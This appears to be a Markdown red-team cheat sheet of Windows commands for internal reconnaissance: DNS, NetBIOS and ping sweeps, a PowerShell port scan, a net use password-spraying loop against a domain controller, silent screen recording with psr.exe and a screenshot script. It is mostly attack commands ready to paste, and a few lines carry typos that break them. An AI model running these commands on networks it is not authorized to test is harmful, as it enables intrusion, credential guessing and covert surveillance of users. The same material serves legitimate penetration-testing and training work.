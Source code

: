 # Windows

## 01 - Internal Reconnaissance

### 1.1 - DNS Enumeration

#### 1.1.1 - Command Prompt

- DNS NSlookup

`C:\> for /L %i in (1,1,255) do @nslookup 192.168.1.%i 192.168.1.254 2> nul | find "Name" && echo 192.168.1.%i`

#### 1.1.2 - Powershell

- DNS using LDAP

`PS C:\> Get-ADComputer -Filter * -Properties IPv4Address | Where {4_.IPV4Address} | Select-Object Name,IPv4Address`

`PS C:\> Get-ADComputer -Filter { IPV4Address -eq '<IP>' } -Properties LastLogonDate,PasswordLastSet,IPv4Address`

### 1.2 - NetBIOS Enumeration

`C:\> for /l %i in (1,1,255) do @nbtstat -A 192.168.1.%i 2> nul && echo 192.168.1.%i`

### 1.3 - Ping Sweep

#### 1.3.1 - Command Prompt

`C:\> for /k %i in (1,1,255) do @ping -n 1 192.168.1.%i 2> nul && echo 192.168.1.%i host is up`

#### 1.3.2 - Powershell

`PS C:\> 1..255 | % { "192.168.1.$($_): $(Test-Connection -Count 1 -Computername 192.168.1.$($_) -Quiet)" }`

### 1.4 - Port Scan

`PS C:\> 1..1024 | % { echo ((New-Object Net.Sockets.TcpClient).Connect("<IP>", $_)) "Port $_ is open" } 2>$null`

## 02 - Password Spraying

`C:\> @for /f %n in (users.txt) do @for /f %p in (passwords.txt) do @net use \\<domain_controller_target>\IPC$ /user:<domain_name>\%n %p 1>nul 2>&1 && @echo [*] %n:%p && @net use /delete \\<domain_controller_target>\IPC$ > nul`

## 03 - Screenshot

### 3.1 - Command Prompt

`C:\> psr.exe /start /output D:\screenshots.zip /sc 1 /gui 0`

### 3.2 - Powershell Script

`$ cat screenshot.ps1`

---

```powershell
Param(  
    [Parameter(Mandatory = $true)][string]$Path  
)  
  
$FileName = "$env:COMPUTERNAME - $(Get-Date -Format yyyy-MM-dd_HHmmss).bmp"  
$File = "$Path\$FileName"  
  
Add-Type -AssemblyName System.Windows.Forms  
Add-Type -AssemblyName System.Drawing  
$Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen  
$Width = $Screen.Width  
$Height = $Screen.Height  
$Left = $Screen.Left  
$Top = $Screen.Top  
  
$bitmap = New-Object System.Drawing.Bitmap $Width, $Height  
$graphic = [System.Drawing.Graphics]::FromImage($bitmap)  
$graphic.CopyFromScreen($Left, $Top, 0, 0, $bitmap.Size)  
$bitmap.Save($File)   
  
Write-Output "Screenshot saved to:"  
Write-Output $File
```

---
## References

- [Powershell Problem Solver Find IP Address Using Powershell](https://petri.com/powershell-problem-solver-find-ip-address-using-powershell/)

- [Powershell Regex to Accurately match IPv4 Address (0-255 only)](https://www.powershelladmin.com/wiki/PowerShell_regex_to_accurately_match_IPv4_address_(0-255_only).php)

- [PSR LOLBas](https://lolbas-project.github.io/lolbas/Binaries/Psr/)